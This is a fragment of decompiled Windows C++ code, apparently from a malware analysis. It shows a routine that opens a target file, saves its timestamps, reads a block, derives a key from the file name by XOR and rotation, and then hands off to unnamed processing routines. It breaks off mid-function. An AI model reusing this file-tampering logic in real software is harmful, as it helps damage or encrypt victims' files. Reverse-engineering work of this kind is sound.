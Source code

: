 ```cpp
            {
              if (byte_406550 == 1)
              {
                lstrcpyA(NewFileName, (LPCSTR)&dword_40444F + 1);
                *PathFindExtensionA(NewFileName) = 0;
              }
              else
              {
                lstrcpyA(NewFileName, (LPCSTR)&dword_40444F + 1);
              }
            }
            else
            {
              lstrcpyA(NewFileName, (LPCSTR)&dword_40444F + 1);
              lstrcatA(NewFileName, asc_404032);
              lstrcatA(NewFileName, lpSubKey);
            }

            // Additional file operations
            v6 = (char *)CreateFileA(ExistingFileName, 0xC0000000, 3u, 0, 3u, 0, 0) + 1;
            if (v6)
            {
              hFile = v6 - 1;
              dword_406555 = GetFileSize(v6 - 1, 0);

              // Check if the file size is greater than 8 bytes 
              if (dword_406555 >= 8)
              {
                // Retrieve the creation, last modification, and last access timestamps of the found file.
                GetFileTime(hFile, &stru_40752E, &stru_407536, &stru_40753E);
                SetFilePointer(hFile, lDistanceToMove, 0, 0);
                ReadFile(hFile, (LPVOID)lpBuffer, nNumberOfBytesToRead, &nNumberOfBytesToWrite, 0);
                if (nNumberOfBytesToWrite)
                {
                  // Jus take the name of file                
                  v7 = *PathFindFileNameA(ExistingFileName);    
                  v8 = 16;
                  v9 = &dword_406595;
                  v10 = &dword_406585;
                  do
                  {
                    v11 = *(_BYTE *)v9;
                    v9 = (int *)((char *)v9 + 1);
                    v12 = v7 ^ v11;
                    v7 = __ROL1__(v7, 1);
                    *(_BYTE *)v10 = v12;
                    v10 = (int *)((char *)v10 + 1);
                    --v8;
                  } while (v8);
                  if (byte_40752C)
                  {
                    if (byte_406550)
                      sub_401797();
                    else
                      sub_40177A();
                  }
                  else
                  {
                    sub_401748();
                  }

                  // 
```